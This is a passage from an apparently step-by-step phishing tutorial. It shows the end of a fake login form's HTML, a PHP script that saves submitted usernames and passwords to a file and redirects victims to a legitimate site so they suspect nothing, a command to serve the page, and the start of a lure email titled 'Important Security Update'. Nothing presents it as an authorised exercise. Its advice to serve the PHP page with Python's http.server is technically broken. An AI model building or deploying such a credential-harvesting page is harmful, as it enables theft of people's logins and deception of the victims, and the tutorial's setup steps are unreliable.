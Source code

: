          <input type="text" id="username" name="username"><br><br>
         <label for="password">Password:</label>
         <input type="password" id="password" name="password"><br><br>
         <input type="submit" value="Login">
       </form>
     </body>
     </html>
     ```
   - **Explanation**: This HTML form looks like a basic login page and collects a username and password.

3. **Create a PHP Script to Capture Credentials**:
   - Create a new file called `capture.php`, which will capture and store any login attempts made through the fake login page.
     ```bash
     nano capture.php
     ```
   - Copy the following PHP code into `capture.php`:
     ```php
     <?php
     $username = $_POST['username'];
     $password = $_POST['password'];
     $file = fopen("credentials.txt", "a");
     fwrite($file, "Username: " . $username . " Password: " . $password . "\n");
     fclose($file);
     header('Location: https://example.com'); // Redirect to a legitimate site after submission
     exit();
     ?>
     ```
   - **Explanation**:
     - This script takes the submitted username and password, writes them to a `credentials.txt` file, and then redirects the user to a legitimate site. This can trick a user into thinking they successfully logged in.

4. **Start the Web Server**:
   - Use Python to start a local web server on port 80 (or another port if needed).
     ```bash
     sudo python3 -m http.server 80
     ```
   - **Note**: Use `sudo` to run on port 80 (a restricted port), or use a higher port, like 8080, without `sudo`.

---

### **Step 2: Create a Phishing Email**

In this step, you’ll draft a phishing email to entice users into visiting the phishing page.

1. **Draft a Phishing Email**:
   - Open a text editor and write a simple phishing email that encourages the recipient to click the link and log in. Here’s an example:
     ```plaintext
     Subject: Important Security Update
